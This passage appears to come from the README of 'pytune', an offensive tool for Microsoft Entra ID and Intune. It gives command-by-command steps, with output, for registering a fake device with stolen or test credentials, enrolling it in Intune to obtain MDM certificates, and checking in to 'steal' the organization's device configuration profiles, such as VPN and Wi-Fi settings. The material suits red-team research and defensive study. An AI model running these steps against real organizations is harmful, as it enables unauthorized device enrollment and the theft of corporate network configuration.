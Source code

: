 ### Enroll a fake device

To enroll a fake device to Intune, you need to register it to Entra ID first with `entra_join` command.

```
$ python3 pytune.py entra_join -o Windows -d Windows_pytune -u testuser@*******.onmicrosoft.com -p ***********                          
Saving private key to Windows_pytune_key.pem
Registering device
Device ID: 8fd0710a-1ea3-4261-86d1-48d7509c80b8
Saved device certificate to Windows_pytune_cert.pem
[+] successfully registered Windows_pytune to Entra ID!
[*] here is your device certificate: Windows_pytune.pfx (pw: password)
```

You will receive an Entra ID's device certificate when succeded.

Then, you can enroll the fake device to Intune with `enroll_intune` command.

```
$  python3 pytune.py enroll_intune -o Windows -d Windows_pytune -c Windows_pytune.pfx -u testuser@*******.onmicrosoft.com -p *********** 
[*] resolved enrollment url: https://fef.msuc06.manage.microsoft.com/StatelessEnrollmentService/DeviceEnrollment.svc
[+] successfully enrolled Windows_pytune to Intune!
[*] here is your MDM pfx: Windows_pytune_mdm.pfx (pw: password)
```

Intune MDM device ceritificate, `{device_name}_mdm.pfx`, is generated once the device is enrolled to Intune.

### Steal device configuration

You can start check-in with `checkin` command.
This exchanges information between device and Intune management server.

```
$ python3 pytune.py checkin -o Windows -d Windows_pytune -c Windows_pytune.pfx -m Windows_pytune_mdm.pfx -u testuser@*******.onmicrosoft.com -p ***********
[*] send request #1
 [*] sending data for ./Vendor/MSFT/NodeCache/MS%20DM%20Server
 [*] sending data for ./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion
 [*] sending data for ./Vendor/MSFT/NodeCache/MS%20DM%20Server/ChangedNodes
 [*] sending data for ./DevDetail/SwV
 [*] sending data for ./DevDetail/Ext/Microsoft/LocalTime
 [*] sending data for ./Vendor/MSFT/WindowsLicensing/Edition
 [*] sending data for ./Vendor/MSFT/Update/LastSuccessfulScanTime
...
```

If there are any device configuration profiles, pytune will steal and display them. The followings are the examples of VPN and Wi-Fi settings delivered to the fake device.

```
[*] send request #9
[*] checkin ended!
[!] maybe these are configuration profiles:
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/RememberCredentials: false
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/AlwaysOn: false
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/RegisterDns: false
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/DeviceCompliance/Enabled: false
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/DeviceCompliance/Sso/Enabled: false
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/PluginProfile/ServerUrlList: vpn.contoso.com;Internal VPN
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/PluginProfile/CustomConfiguration: <pulse-schema><isSingleSignOnCredential>true</isSingleSignOnCredential></pulse-schema>
```